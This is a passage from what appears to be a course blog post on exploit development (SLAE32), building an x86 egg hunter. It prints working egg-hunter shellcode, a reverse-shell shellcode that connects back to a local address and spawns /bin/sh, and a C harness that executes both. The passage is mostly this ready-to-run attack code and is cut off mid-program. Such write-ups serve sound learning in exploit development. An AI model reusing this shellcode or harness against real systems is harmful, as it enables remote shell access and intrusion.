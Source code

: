 ```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ ./compile.sh egg-hunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

The next step is to extract the shellcode from the `egg-hunter` executable in order to test it with another shellcode. The `objdump` program, which displays information from object files, is used with the following one-liner:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ objdump -d ./egg-hunter | grep '[0-9a-f]:' | grep -v 'file'|cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
```

Now we have extracted the shellcode and we will test it with the reverse shell created in the previous blog post. So, we need to extract the shellcode from the `reverse` executable with the previous `objdump` command:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/3_Egg_hunter$ objdump -d ./reverse | grep '[0-9a-f]:' | grep -v 'file'|cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x66\xb8\x67\x01\x31\xdb\xb3\x02\x31\xc9\xb1\x01\x31\xd2\xcd\x80\x89\xc3\x31\xc0\x66\xb8\x6a\x01\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x6a\x02\x31\xc9\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\xb0\x0b\x31\xd2\x52\x52\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

After that, we modify the `C` program provided in the course materials that checks if a shellcode is working. The `code` array contains the shellcode generated by `objdump` but at the start we have put the egg value twice in little endian format. So it has become `\x90\x50\x90\x50\x90\x50\x90\x50`. When the Egg Hunter shellcode gets executed it will search for that pattern and execute the shellcode coming after that, which is our reverse shell. Then we declare the `egghunter` shellcode. After that we print the lengths of both shellcodes. Finally, we perform typecasting on the `egghunter` shellcode and execute the `ret()` function that executes the `egghunter` shellcode, which then calls `code`.

The whole `C` program is the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x66\xb8\x67\x01\x31\xdb\xb3\x02\x31\xc9\xb1\x01\x31\xd2\xcd\x80\x89\xc3\x31\xc0\x66\xb8\x6a\x01\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x6a\x02\x31\xc9\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\xb0\x0b\x31\xd2\x52\x52\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));
	printf("Egg Hunter Length: %d\n", strlen(egghunter));

        int (*ret)() = (int(*)())egghunter;

        ret();

```